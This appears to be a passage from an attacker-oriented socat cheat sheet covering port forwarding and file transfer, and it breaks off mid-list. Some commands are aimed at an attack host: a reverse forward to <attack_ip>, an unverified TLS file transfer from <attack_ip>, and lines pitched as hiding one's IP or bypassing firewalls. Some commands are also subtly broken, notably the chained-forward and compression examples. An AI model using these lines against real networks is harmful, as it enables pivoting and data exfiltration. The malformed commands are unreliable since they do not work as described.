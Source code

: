 1. **Basic Port Forwarding**: Forwards traffic from `<local_port>` to `<target_ip>:<target_port>`.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork TCP:<target_ip>:<target_port>
    ```
2. **Reverse Port Forwarding**: Listens on `<target_port>` and forwards traffic to `<attack_ip>:<attack_port>`.
    ```bash
    socat TCP:<attack_ip>:<attack_port> TCP-LISTEN:<target_port>,reuseaddr,fork
    ```
3. **UDP Port Forwarding**: Forwards UDP traffic from `<local_port>` to `<target_ip>:<target_port>`.
    ```bash
    socat UDP-LISTEN:<local_port>,reuseaddr,fork UDP:<target_ip>:<target_port>
    ```
4. **Dynamic Port Forwarding with SOCKS Proxy**: Creates a dynamic port forward through a SOCKS proxy, allowing for complex routing scenarios.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SOCKS4:<target_ip>:<target_port>,socksport=<socks_port>
    ```
5. **HTTP Proxy Forwarding**: Forwards traffic through an HTTP proxy, allowing you to conceal your IP address.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork PROXY:<proxy_ip>:<proxy_port>/TCP:<target_ip>:<target_port>
    ```
6. **Chained Port Forwarding**: Chains multiple port forwards together, which is useful for complex routing or bypassing firewalls.
    ```bash
    socat TCP-LISTEN:<local_port1>,reuseaddr,fork TCP:<intermediate_ip>:<intermediate_port> | socat - TCP:<target_ip>:<target_port>
    ```
7. **SSL/TLS Encrypted Port Forwarding**: Encrypts port forwarding with SSL/TLS, ensuring confidentiality over insecure networks.
    ```bash
    socat OPENSSL-LISTEN:<local_port>,cert=server-cert.pem,key=server-key.pem,cafile=ca-cert.pem,verify=0,fork TCP:<target_ip>:<target_port>
    ```
8. **IPv6 Port Forwarding**: Forwards traffic over IPv6, useful for environments transitioning to or using IPv6.
    ```bash
    socat TCP6-LISTEN:<local_port>,reuseaddr,fork TCP6:<target_ip>:<target_port>
    ```

#### File Transfer Techniques

1. **Secure File Transfer with SSL/TLS**: Encrypts file transfers using SSL/TLS, ensuring data confidentiality.
    ```bash
    socat OPENSSL-LISTEN:<local_port>,cert=server-cert.pem,key=server-key.pem,cafile=ca-cert.pem,verify=0,fork FILE:<file_to_send>
    # On the receiving end:
    socat - OPENSSL:<attack_ip>:<attack_port>,verify=0 > <output_file>
    ```
2. **Large File Transfer with Compression**: Compresses data during transfer, reducing the amount of data transmitted over the network.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"gzip -c <file_to_send>" | socat - TCP:<target_ip>:<target_port> SYSTEM:"gzip -d > <output_file>"
    ```
3. **Multicast File Transfer**: Sends a file to multiple recipients simultaneously using multicast.
    ```bash